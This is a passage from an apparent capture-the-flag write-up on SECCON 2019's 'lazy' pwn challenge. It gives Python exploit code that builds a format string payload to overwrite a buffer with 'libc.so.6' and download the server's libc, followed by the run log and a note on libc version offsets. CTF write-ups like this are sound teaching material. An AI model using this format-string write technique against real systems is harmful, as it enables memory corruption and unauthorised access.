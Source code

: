 
So, my goal is to give the program a format string that will modify itself to be "libc.so.6\x00".
Since the `download` function copies `strlen(file_name) - 1` bytes, we will have to write "libc.so.6X\x00", X being any byte != '\x00'.  
I used my *in development* format string library to help me calculating the paddings, but I had to edit the payload manually for it to work properly:

```python
...

# addresses to write on
sequence = "".join([p64(input_addr+i) for i in range(8)])
sequence += p64(input_addr+8)

fs = FormatString()
# first address will be at offset 23 (%23$hhn)
fs.write(23, u64("libc.so."), step=1)

payload = fs.payload()
# this is a dirty hack, but it got the job done
payload += "%" + str(0x3636 - fs.bytes_written_so_far) + "x" + "%31$n"
# pad the input so the the addresses are in a known  
# location at a specific offset
payload += "\x00" * (136 - len(payload)) + sequence

s.sendline("4")
s.sendline(payload)

# download libc
s.recvuntil("bytes")
libc_bin = s.recvall()
with open("libc.so.6", "wb") as f:
    f.write(libc_bin)
    f.close()

----------------------------------------
╭─vagrant@ubuntu-bionic ~/share/seccon19/pwn/lazy
╰─$ python exploit_leaks.py remote
[+] Opening connection to lazy.chal.seccon.jp on port 33333: Done
[*] leak = 0x7fff69245d50
[*] input @ 0x7fff69245cf0
[+] Receiving all data: Done (3.75MB)
```

## The Final Exploit
Unfortunately, for some reason I couldn't download the libc without it getting corrupted somehow, so I couldn't use `objdump` to find the function offsets.  
I decided to put load it in a binary analysis program and look for known funcitons.   
I found this string: `GNU C Library (GNU libc) stable release version 2.23, by Roland McGrath et al.`.   
This led me to believe that it was not a standard glibc compiled by Ubuntu like it usually is, which means that the offsets will most likely differ.
